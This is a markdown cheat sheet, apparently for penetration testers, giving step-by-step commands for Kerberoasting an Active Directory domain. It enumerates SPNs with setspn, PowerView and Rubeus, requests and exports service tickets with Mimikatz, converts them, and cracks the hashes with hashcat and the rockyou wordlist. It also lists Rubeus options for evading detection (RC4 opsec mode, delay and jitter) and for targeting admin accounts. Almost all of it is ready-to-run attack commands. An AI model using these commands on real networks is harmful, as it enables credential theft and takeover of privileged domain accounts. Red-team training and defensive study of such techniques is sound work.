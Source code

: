 ```yaml
---
legal-banner: true
---
```


### **Step 1: Preparation and SPN Enumeration**

1. List all Service Principal Names (SPNs) in the domain:  
   ```bash
   setspn.exe -Q */*
   ```

2. Add the .NET Framework class to the PowerShell session:  
   ```powershell
   Add-Type -AssemblyName System.IdentityModel
   ```

3. Request a Ticket Granting Service (TGS) ticket for a specific SPN:  
   ```powershell
   New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-SQL-hackfast.example.local:1433"
   ```

4. Retrieve all tickets:  
   ```powershell
   setspn.exe -T EXAMPLE.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
   ```

### **Step 2: Export and Prepare Kerberos Tickets**

5. Use Mimikatz to list and export Kerberos tickets:  
   ```plaintext
   mimikatz # kerberos::list /export
   ```

6. Convert tickets to base64 for easier transport:  
   ```plaintext
   mimikatz # base64 /out:true
   ```

7. Remove new lines and spaces:  
   ```bash
   echo "[BASE64 BLOB]" | tr -d \\n
   ```

8. Save the blob to a `.kirbi` file:  
   ```bash
   cat encoded_file | base64 -d > sqldev.kirbi
   ```

### **Step 3: Extract and Crack the Kerberos Ticket**

9. Extract the Kerberos ticket using `kirbi2john.py`:  
   ```bash
   python2.7 kirbi2john.py sqldev.kirbi > crack_file
   ```

10. Modify the file for Hashcat:  
   ```bash
   sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
   ```

11. Confirm the prepared hash:  
   ```bash
   cat sqldev_tgs_hashcat
   ```

12. Crack the hash with Hashcat:  
   ```bash
   hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
   ```

### **PowerView for SPN Enumeration and Ticket Extraction**

1. Import PowerView:  
   ```powershell
   Import-Module .\PowerView.ps1
   ```

2. List domain users with SPNs:  
   ```powershell
   Get-DomainUser * -spn | select samaccountname
   ```

3. Get SPN tickets for a specific user and format for Hashcat:  
   ```powershell
   Get-DomainUser -Identity [USERNAME] | Get-DomainSPNTicket -Format Hashcat
   ```

### **Rubeus for Advanced Kerberoasting Techniques**

1. Perform Kerberoasting and output hashes to a file:  
   ```bash
   .\Rubeus.exe kerberoast /outfile:hashes.txt
   ```

2. Perform Kerberoasting with alternate credentials:  
   ```bash
   .\Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD
   ```

3. Perform Kerberoasting with an existing TGT:  
   ```bash
   .\Rubeus.exe kerberoast /ticket:BASE64 | /ticket:FILE.KIRBI
   ```

4. Perform OPSEC-safe Kerberoasting:  
   ```bash
   .\Rubeus.exe kerberoast /rc4opsec
   ```

5. Request tickets for accounts with an admin count of 1:  
   ```bash
   .\Rubeus.exe kerberoast /ldapfilter:'admincount=1'
   ```

6. Perform Kerberoasting with a delay and jitter:  
   ```bash
   .\Rubeus.exe kerberoast /delay:5000 /jitter:30
   ```
